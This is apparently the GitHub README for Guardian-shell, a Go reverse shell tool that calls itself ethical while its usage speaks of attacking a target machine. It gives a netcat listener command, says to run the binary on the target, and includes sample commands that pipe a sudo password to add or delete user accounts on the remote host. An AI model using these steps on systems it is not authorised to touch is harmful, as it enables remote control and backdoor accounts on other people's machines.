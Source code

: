 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management, monitoring and penetration testing. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`

step 2 : run guardian-shell binary on the machine you want to attack. 
copy from this repo the binary and paste it on the machine you want to attack and run it `./guardian-shell`
on success, it will give you response `Connected to the reverse guardian listner!` or it will wait for listner.

## sample commands

After deploying this app, you can test it by running the following command to see how dangerous it is.

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```
## to do
file transfer 

## on attack machine 
![image](https://github.com/avvvet/guardian-shell/assets/25494022/23a2039c-0d53-4fa9-9551-0e0bf3eed47a)

## on the remote machine to be attacked
![image](https://github.com/avvvet/guardian-shell/assets/25494022/bcc2d45a-f4ec-49ad-9def-8c46bad02074)